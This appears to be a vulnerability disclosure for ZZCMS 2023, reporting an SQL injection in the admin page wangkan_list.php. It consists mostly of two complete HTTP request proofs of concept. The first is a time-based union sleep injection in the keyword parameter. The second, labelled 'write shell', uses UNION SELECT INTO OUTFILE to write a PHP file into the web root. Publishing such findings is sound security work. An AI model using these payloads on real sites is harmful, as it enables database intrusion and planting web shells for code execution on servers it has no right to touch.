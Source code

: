 # zzcms-wangkan_list-sql注入

## Supplier

```
http://www.zzcms.net/
```

## Description

```
ZZCMS 2023 is a rapid site building system, product investment template program source code, can quickly build product investment network. For example, medical investment, health products investment, cosmetics investment, agricultural investment, pregnancy and child investment, alcohol and non-staple food.

sql injection vulnerability exists
```

## POC

Log in to the backend system and randomly grab a data packet with permission to replace it.

![image-20251029172815907](./zzcms-sql-inject2.assets/image-20251029172815907.png)

poc

```
GET /admin/wangkan_list.php?keyword=%25'union+SELECT+sleep(5)--+x HTTP/1.1
Host: 127.0.0.1:8888
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:8888/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: http304ok=0; PHPSESSID=pvpehubud7epklbme9m4s69b0q;
Connection: close


```

write shell

![image-20251029172846012](./zzcms-sql-inject2.assets/image-20251029172846012.png)

![image-20251029172831721](./zzcms-sql-inject2.assets/image-20251029172831721.png)

```
GET /admin/wangkan_list.php?keyword=%25'union+SELECT+'<?php+phpinfo()%3b+%3f>'+into+outfile+'D:/code/php/zzcms2023/1.php'--+x HTTP/1.1
Host: 127.0.0.1:8888
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:8888/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: http304ok=0; PHPSESSID=pvpehubud7epklbme9m4s69b0q; xywpwx_bakusername=admin; xywpwx_snsjjssbdvqm=aca496e77ae7ceff46c2f8e72f4235d5; qebak_efourcheck=be67da7f3e3c39cd439799a20c67f8b4; xywpwx_bakrnd=RV5D5hcFcuQb; xywpwx_loginebakckpass=f169887a020e3dca048190f831fb4bbe; xywpwx_baklogintime=1730969421;bigclassid=xxx\
Connection: close


```

